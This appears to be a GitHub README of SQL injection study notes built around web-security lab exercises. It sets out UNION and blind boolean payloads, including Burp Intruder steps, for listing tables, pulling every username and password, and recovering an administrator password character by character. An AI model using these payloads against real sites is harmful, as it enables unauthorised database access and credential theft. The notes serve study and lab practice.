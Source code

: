 <h2>SQL Injection(SQLi) ATTACK </h2>

<b>SQL Attack queries to determine the number of COLUMNS, DATATYPES of the columns and VERSION on Oracle, Microsoft, MySQL and PostgreSQL</b>

| Database | Columns Query | Datatypes | Version |
|----------|---------------|-----------|---------|
| Oracle |  ‘ ORDER BY 1-- </br> ‘ ORDER BY 3-- </br> In this example: 3 - 1 = 2(no. of columns) | ‘ UNION SELECT ‘a’ , ‘a’ FROM DUAL-- | ‘ UNION SELECT banner, NULL FROM v$version-- </br> SELECT banner FROM v$version |  
| Microsoft | same as Oracle | ‘ UNION SELECT ‘a’ , ‘a’-- | SELECT @@version | 
| MySQL | ‘ ORDER BY 1# | ‘ UNION SELECT ‘a’ , ‘a’# | SELECT @@version </br> ‘ UNION SELECT @@version, ‘a’#|
| PostgreSQL | same as Oracle | ‘ UNION SELECT ‘a’ , ‘a’-- | SELECT version() |

<b>SQLi Attack, listing the database contents on Oracle</b>
</br>
1. Use [Burp Suite](https://portswigger.net/burp/communitydownload) to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:  '+UNION+SELECT+'abc','def'+FROM+dual--
3. Use the following payload to retrieve the list of tables in the database:  '+UNION+SELECT+table_name,NULL+FROM+all_tables--
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:  '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:  '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
8. Find the password for the administrator user, and use it to log in.
</br>

<b>SQLi UNION attack, finding a column containing text</b>
</br>
1. Use Burp Suite to intercept and modify the request that sets the product category filter. </br>
2. Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:  '+UNION+SELECT+NULL,NULL,NULL-- </br>
3. Try replacing each null with the random value, for example:  '+UNION+SELECT+'abcdef',NULL,NULL-- </br>
4. If an error occurs, move on to the next null and try that instead.
</br>

<b>Blind SQL injection with conditional responses</b>

Modify the TrackingId cookie, changing it to:
TrackingId=xyz' AND '1'='1
Verify that the "Welcome back" message appears in the response.
Now change it to:
TrackingId=xyz' AND '1'='2
Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

Now:
Confirm that there is a table called users.
‘ AND (SELECT ‘a’ FROM users LIMIT 1)=‘a
Verify that the condition is true, confirming that there is a table called users.

Confirm that there is a user called administrator.
‘ AND (SELECT ‘a’ FROM users WHERE username=‘administrator’)=‘a
Verify that the condition is true, confirming that there is a user called administrator.

Determine the length of the password in the administrator user.
To do that: ‘ AND (SELECT ’a’ FROM users WHERE username=‘administrator’ AND LENGTH(password)>1)=‘a
This condition should be true, confirming that the password is greater than 1 character in length.

Send a series of follow-up values to test different password lengths. Send
‘ AND (SELECT ’a’ FROM users WHERE username=‘administrator’ AND LENGTH(password)>2)=‘a
Then send:
‘ AND (SELECT ’a’ FROM users WHERE username=‘administrator’ AND LENGTH(password)>3)=‘a
We can so this by manually by using Burp Repeater.
OR can do automatically by using Burp Intruder.
In Burp Intruder:
Choose Payload Type: Numbers
Change payload settings with Number range 
From 1 to 25 and step 1
Place payload position markers around the final a character in the cookie value. To do this, select just the 1, and click the "Add §" button. 
‘ AND (SELECT ’a’ FROM users WHERE username=‘administrator’ AND LENGTH(password)>§1§)=‘a

Next:</br>
Change the value of cookie in the position tab of the Burp Intruder.
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
